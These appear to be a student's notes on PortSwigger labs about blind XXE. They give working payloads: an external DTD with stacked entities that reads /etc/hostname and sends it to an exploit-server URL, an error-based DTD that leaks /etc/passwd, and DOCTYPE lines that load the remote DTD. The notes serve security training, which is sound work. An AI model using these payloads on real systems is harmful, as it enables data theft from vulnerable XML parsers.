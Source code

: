 Analysis:

- first we will try an out of band exfiltration using burp collaborator/our exploit server

    `<!DOCTYPE test [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL(server/exploit)"> %xxe;]>`

    `<!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "YOUR-DTD-URL(server/exploit)"> %loadDtd;]>`

- we have to create a malicious DTD file(stored on our exploit server) in order to exfiltrate the data:
	DTD file must contain a **file entity** and a **stack entity**(this method is also called stacked entities) || `&#x25;` represents the XML encoded of %  (because of entity inside of entity)

Note:
	In this case we have to retrieve a single line file (/etc/hostname) so we can manage this via building the DTD pointing to the exploit server .

- DTD exploit file (for /etc/hostname)
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a36000204174338c4c637de0106008f.exploit-server.net/?X=%file;'>">
%stack;
%exfil;
```

- now we are calling inside of DOCTYPE our DTD exploit file which is stored on the server:![[Pasted image 20240927220556.png]]
OR calling entities outside the DTD file
	![[Pasted image 20240927221138.png]]  

## **6. Exploiting blind XXE to retrieve data via error messages**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

1. Click "Go to exploit server" and save the following malicious DTD file on your server:
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
    When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
    
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    `<!DOCTYPE test [<!ENTITY % loadDTD SYSTEM "YOUR-DTD-URL"> %loadDTD;]>`

Analysis:
- out of band XXE using a DTD exploit file 
    `<!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "YOUR-DTD-URL(server/exploit)"> %loadDtd;]>`

